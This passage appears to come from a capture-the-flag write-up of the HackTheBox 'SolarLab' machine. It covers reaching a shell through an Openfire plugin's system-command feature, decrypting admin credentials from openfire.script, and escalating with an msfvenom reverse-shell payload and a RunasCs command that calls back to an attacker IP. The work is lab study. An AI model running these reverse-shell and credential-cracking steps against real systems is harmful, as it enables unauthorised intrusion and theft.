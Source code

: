 ![Openfire malicious plugin](/images/HTB-SolarLab/malicious-plugin.png)

Go to `Server` --> `Server Settings` --> `Management Tool`, input the password `123` and click `Login`. You get some information about the server.

Select `system command` in the drop-down menu.

![Openfire system command](/images/HTB-SolarLab/system_cmd.png)

Get another Powershell base64 encoded reverse shell from [revshells](https://www.revshells.com/) and execute it. On the listener we get a shell as `openfire`.

![Openfire execute command](/images/HTB-SolarLab/execute-cmd.png)

![Openfire shell](/images/HTB-SolarLab/openfire_shell.png)

## Privilege Escation (admin shell)

We still cannot find the root flag but after some system exploration we find a file called `openfire.script` in `C:\Program Files\Openfire\embedded-db`.

The file contains the credentials of the admin user but the password needs to be decrypted. Fortunately we have the password hash and the key.

![Openfire encrypted password](/images/HTB-SolarLab/encrypted-pwd.png)

* Password hash: `becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442`
* Key value: `hGXiFzsKaAeYLjn`

We can decrypt those with [openfire_decrypt](https://github.com/c0rdis/openfire_decrypt) by using the command below.

```
java OpenFireDecryptPass [PASSWORD_HASH] [KEY_VALUE]
```

![Openfire password decrytion](/images/HTB-SolarLab/java-openfire-decrypt.png)

The credentials are: `admin:ThisPasswordShouldDo!@`.

I tried to login with Evil-WinRM but it was not working so we resort to using RunasCs.

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=YOUR_IP lport=PORT_NUMBER -f exe -a x64 --platform windows -o shell.exe
```

After sending both `shell.exe` and `RunasCs.exe` to the target, we run the command below.

> Setup a listener before running the runascs.exe command

```
.\runascs.exe administrator ThisPasswordShouldDo!@ powershell -r 10.10.14.176:5555
```

![runascs root command](/images/HTB-SolarLab/runascs_root.png)

On our listener we get a shell as administrator and we find the root flag in the Desktop directory.

![root shell & root flag](/images/HTB-SolarLab/root_flag.png)
